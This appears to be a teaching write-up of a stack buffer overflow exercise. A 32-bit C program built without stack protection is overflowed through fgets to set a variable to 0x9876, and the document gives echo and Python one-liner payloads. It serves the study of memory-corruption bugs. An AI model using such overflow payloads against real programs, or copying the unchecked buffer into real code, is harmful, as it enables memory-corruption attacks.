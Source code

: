 ## Stack buffer overflow

Basic demonstration of a stack buffer overflow. This example is compiled to a 32-bit program, and has stack protection disabled.

```
gcc -o stack stack.c -m32 -fno-stack-protector
```

## Goal

Using the file **stack**, you need to get through the condition **exploit == 0x9876** and get the message **It worked!** printed. No file modification is allowed.

## Solution

This exploit is about the function fgets. Our array is 10 bytes long and the function fgets is looking for up to 13 bytes. Thus, by giving more than 10 bytes to the standard input, we are going to overrun the buffer's boundary and overwrite an adjacent memory location (in our case, the variable exploit which is located just under our array). Here is a non-exhaustive list of solutions :

Using shell scripting :

```
echo -ne "1234567890\x76\x98" | ./stack
```

Using python :

```
python -c "print 'A'*10+'\x76\x98'" | ./stack
```

Remember that stack works in reverse!
